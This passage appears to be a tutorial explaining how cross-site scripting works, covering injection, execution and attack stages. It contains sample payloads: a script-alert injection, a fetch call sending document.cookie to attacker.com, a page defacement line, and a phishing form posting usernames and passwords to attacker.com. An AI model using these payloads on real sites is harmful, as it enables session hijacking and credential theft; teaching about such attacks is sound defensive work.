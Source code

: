 ### **1. Injection**  
The attacker injects **malicious input** into a vulnerable part of the web application, such as a form, URL parameter, or comment section. This input is designed to be processed as executable code rather than plain text.

- Example injection in a form field:  
  ```html
  <script>alert('XSS Attack');</script>
  ```

### **2. Execution**  
The browser executes the injected script when the user accesses the page containing the malicious input. Depending on the type of XSS (Stored, Reflected, or DOM-Based), this could happen automatically (Stored XSS) or require a user to click a malicious link (Reflected XSS).

- Example vulnerable output:  
  ```html
  <p>Search results for: <script>alert('XSS Attack');</script></p>
  ```
  
The browser renders and runs the script, displaying an alert box in this example.

### **3. Attack**  
Once executed, the script can perform harmful actions such as:
- **Stealing cookies**:  
  ```javascript
  fetch('https://attacker.com/steal?cookie=' + document.cookie);
  ```

  `document.cookie` is used to get the cookies of the user which is stored in the browser.

- **Manipulating the page (DOM)**:  
  ```javascript
  document.body.innerHTML = '<h1>This site has been hacked!</h1>';
  ```
  `innerHTML` is used to get the innerHTML of the body of the page. When the page is loaded, the script is executed and the innerHTML of the body is changed to `<h1>This site has been hacked!</h1>`.

- **Tricking users with phishing forms**:
  ```html
  <form action="https://attacker.com/login" method="POST">
    <input type="text" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <button type="submit">Log In</button>
  </form>
  ```

  The form is submitted to the attacker's server and the username and password are stolen. User is not aware that their credentials are being stolen as the form is submitted to the attacker's server and the user is redirected to the attacker's website.
  
  
  ## **Types of XSS Attacks**

